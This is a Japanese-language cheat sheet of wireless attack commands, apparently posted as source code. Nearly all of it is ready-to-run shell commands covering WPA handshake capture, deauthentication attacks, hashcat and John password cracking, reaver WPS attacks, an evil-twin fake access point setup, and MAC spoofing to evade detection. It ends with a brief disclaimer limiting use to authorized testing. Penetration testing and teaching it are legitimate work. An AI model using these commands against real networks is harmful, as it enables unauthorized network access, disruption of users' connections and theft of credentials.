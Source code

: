 # WiFi Penetration Testing Techniques

## 無線LANカードの設定

### モニターモードの有効化
```bash
# インターフェースの確認
iwconfig

# モニターモードの有効化
airmon-ng check kill
airmon-ng start wlan0

# モニターモードの確認
iwconfig wlan0mon
```

## WPA/WPA2クラック

### ネットワークスキャン
```bash
# 周辺のWiFiネットワークをスキャン
airodump-ng wlan0mon

# 特定のネットワークを監視
airodump-ng -c [チャンネル] --bssid [BSSID] -w [保存ファイル名] wlan0mon
```

### WPA ハンドシェイクの取得
```bash
# クライアントの認証を待機
airodump-ng -c [チャンネル] --bssid [BSSID] -w [保存ファイル名] wlan0mon

# Deauth攻撃でハンドシェイクを強制取得
aireplay-ng -0 1 -a [BSSID] -c [クライアントMAC] wlan0mon
```

### パスワードクラック
```bash
# Hashcatを使用したクラック
hashcat -m 22000 [キャプチャファイル].cap [辞書ファイル]

# John the Ripperを使用したクラック
john --wordlist=[辞書ファイル] [ハッシュファイル]
```

## WPS攻撃

### Pixie Dust攻撃
```bash
# WPS有効なAPの検索
wash -i wlan0mon

# Pixie Dust攻撃の実行
reaver -i wlan0mon -b [BSSID] -c [チャンネル] -K 1
```

### ブルートフォース攻撃
```bash
# WPSピンのブルートフォース
reaver -i wlan0mon -b [BSSID] -c [チャンネル] -vv
```

## Evil Twin攻撃

### 偽APの作成
```bash
# hostapd設定ファイルの作成
cat << EOF > fake-ap.conf
interface=wlan0
driver=nl80211
ssid=[ターゲットSSID]
hw_mode=g
channel=1
macaddr_acl=0
auth_algs=1
ignore_broadcast_ssid=0
EOF

# 偽APの起動
hostapd fake-ap.conf
```

### DHCPサーバーの設定
```bash
# dnsmasq設定
cat << EOF > dnsmasq.conf
interface=wlan0
dhcp-range=192.168.1.2,192.168.1.30,255.255.255.0,12h
dhcp-option=3,192.168.1.1
dhcp-option=6,192.168.1.1
server=8.8.8.8
log-queries
log-dhcp
listen-address=127.0.0.1
EOF

# DHCPサーバー起動
dnsmasq -C dnsmasq.conf
```

## 防御検知回避

### チャンネルホッピング
```bash
# チャンネルを自動で切り替え
airodump-ng --band abg wlan0mon
```

### MACアドレスのスプーフィング
```bash
# MACアドレスの変更
macchanger -r wlan0mon

# 特定のMACアドレスに変更
macchanger -m XX:XX:XX:XX:XX:XX wlan0mon
```

## キャプチャ解析

### パケット解析
```bash
# Wiresharkでの解析
wireshark [キャプチャファイル].cap

# tsharkでの解析
tshark -r [キャプチャファイル].cap -Y "wlan.fc.type_subtype == 0x08"
```

### クライアント情報の抽出
```bash
# 接続履歴の抽出
tshark -r [キャプチャファイル].cap -Y "wlan.fc.type_subtype == 0x04" -T fields -e wlan.sa -e wlan.bssid
```

## 注意事項
- これらの技術は、許可された環境でのペネトレーションテストでのみ使用してください
- 無線LANの不正アクセスは法律違反となる可能性があります
- テスト環境以外での使用は違法となる可能性があります
- 電波法に違反する可能性のある操作が含まれています 